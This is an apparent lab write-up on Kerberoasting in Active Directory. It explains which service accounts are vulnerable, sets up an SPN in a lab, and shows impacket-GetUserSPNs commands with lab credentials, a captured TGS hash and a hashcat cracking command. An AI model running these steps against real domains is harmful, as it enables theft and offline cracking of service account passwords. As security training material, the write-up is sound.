



# 🔐 Kerberoasting

## What is Kerberoasting

Kerberoasting is a post-exploitation technique that targets service accounts in an Active Directory (AD) environment. The attack revolves around exploiting weak service account passwords protected by Kerberos, a network authentication protocol used in AD.


An account is **Kerberoastable** when **all of the following conditions are true**:

---

#### ✅ 1. **It has an SPN (Service Principal Name) registered**

* SPNs are used by Kerberos to identify service accounts.
* Example SPNs:

  * `CIFS/server.domain.com`
  * `HTTP/webapp.domain.local`


---

#### ✅ 2. **The account is a regular user account (not a computer account)**

* Service accounts are often just domain users running services under them.
* Computer accounts (ending in `$`) are not usually targeted because their passwords are rotated automatically and are long/random.

---

#### ✅ 3. **The SPN is not marked as "Trusted for delegation" (optional)**

* While not a strict requirement, accounts marked as “trusted for delegation” may behave differently or be more tightly monitored.

---

#### ✅ 4. **The attacker has a valid domain user account**

* You must be authenticated in the domain to request TGS tickets for service accounts (this is normal domain behavior).

---

#### Point

> **A Kerberoastable account is a user account with an SPN set, whose password can be cracked offline after requesting a TGS.**


### Lab Set Up

#### Create a User Account

Create a normal user like `Srv_Application1`.



#### Create a File Share

To simulate a file service, create a share at `C:\Shares`.

Under **Properties** → **Sharing** tab → **Share**:



#### Set the SPN for `Srv_Application`

Use the following command:

```

setspn -S CIFS/DC01-FURIOUS5 Srv\_Application -q

```

Verify it with:

```

setspn -l Srv\_Application

```




### Perform the Attack

We use the following command:

```
impacket-GetUserSPNs furious.local/jack\:complex1@ -dc-ip 192.168.129.140
```
```

┌──(kali㉿kali)-\[\~]
└─\$ impacket-GetUserSPNs furious.local/jack\:complex1@ -dc-ip 192.168.129.140
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName     Name    MemberOf                                                   PasswordLastSet             LastLogon                   Delegation

---

CIFS/DC01-FURIOUS05      Radeel  CN=devops,CN=Users,DC=furious,DC=local                     2025-04-18 08:20:01.516893  <never>

```

Now we can request:

```
┌──(kali㉿kali)-[~]
└─$ impacket-GetUserSPNs furious.local/jack:complex1@ -dc-ip 192.168.129.140 -request
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName     Name    MemberOf                                                   PasswordLastSet             LastLogon                   Delegation 
-----------------------  ------  ---------------------------------------------------------  --------------------------  --------------------------  ----------
CIFS/DC01-FURIOUS5       jack    CN=Remote Management Users,CN=Builtin,DC=furious,DC=local  2025-04-17 08:30:09.741075  2025-05-03 09:16:18.530833             
CIFS/DC01-FURIOUS05      Radeel  CN=devops,CN=Users,DC=furious,DC=local                     2025-04-18 08:20:01.516893  <never>                                
HTTP/fake.furious.local  Radeel  CN=devops,CN=Users,DC=furious,DC=local                     2025-04-18 08:20:01.516893  <never>                                


[-] CCache file is not found. Skipping...
Radeel*$d9271fe03af8248822f51b2497cd2ace$2cd6efbb30ecfda3a0018a924432dbe40bd8d0498d616fd81ee362ec918921a8d273e62320263467e1458a2b220eb5cf468a9b26e0f800ac8c2cbb095f1912023d1e08f15f8a31b4d7f09667b1b9880e97d295b7393cfc98b450b51c078b1a8455950d517f8073eff39592b3173f5932c56f886ef94bdd8fde8af183265b3addf7cede2e2cfb4823d1a3c1becd63f3c82bf2be5dcc009e7f7e0290232d3281e8a664c5e802b865b3d7cfe56d377a3e110d0ed36833de66ae2634381edf9cc42f0df1bde59d633c145742ca34418231b4a2af3a9be5983a796c5b71d2372ca3f04e915ef16788be91868292837287a0bd975e77d7ee1ba5c7898e3f65093a49db1ed45cfc6e39a393385ba6f5b5a48ae4adf41e5d37ebd49cab3dd95799f2c97039641ffc540893bee7f480303a5eb122768bb7b3edd73f940cb082b48fe3c5d8d85b184f3cda318302fad84560a2684b2d3c0ed0ee53a53a157cc939024865f1cee6f6c57eb8f93244b049ff35a4ec763947ca402afa4aff3103cc5e4f93c90290723f60d612fb99b7762823861b111f552032fc888c453b7b17e1097b61ed761a59cc47885b76931cf67ebb1927148c969094fa85857bf748ea54e346879d761a0d4d8ac992daa53123e355294687468c78d64de212ac63ccc5ad8e0304361d9a2672ddbb841e78237d603da0bb48679343362923a25017474d137f1ef........................b3f5250ea025c0889dd1753c77f3c6561fce650461eed9894dfb8de03fa2b0fe35bb96f46f5660be1d5c22fd428dacf1f1a1d255e4714dbde331b00ab12a9a28dcf207a3397e8de9e12bb4a03eb543f1d1f1666bddf7c6d29fdad67359a18826011deb97f9c6b0a17b40e5a6cdf5f22e190736b7189963c1a489875bfb1c8fa49c8c12865f2391a2fdd83b147393b88de64ec66c802720fa475e31acf8d3c594eb64ca3cc6d7823ce18b392bf887cb758b589df496b109651e900588261e67e7526186c0d72ad98c7dbeee81903e0658ada90abf5071acf318853279e0ba06401bc6a8b7decdb72a525109576483d0cbcfbf09f
   
```

This is Kerberos 5, etype 23, TGS-REP. We use mode:

```

hashcat -m 13100 kerberoast.hash rockyou.txt

```
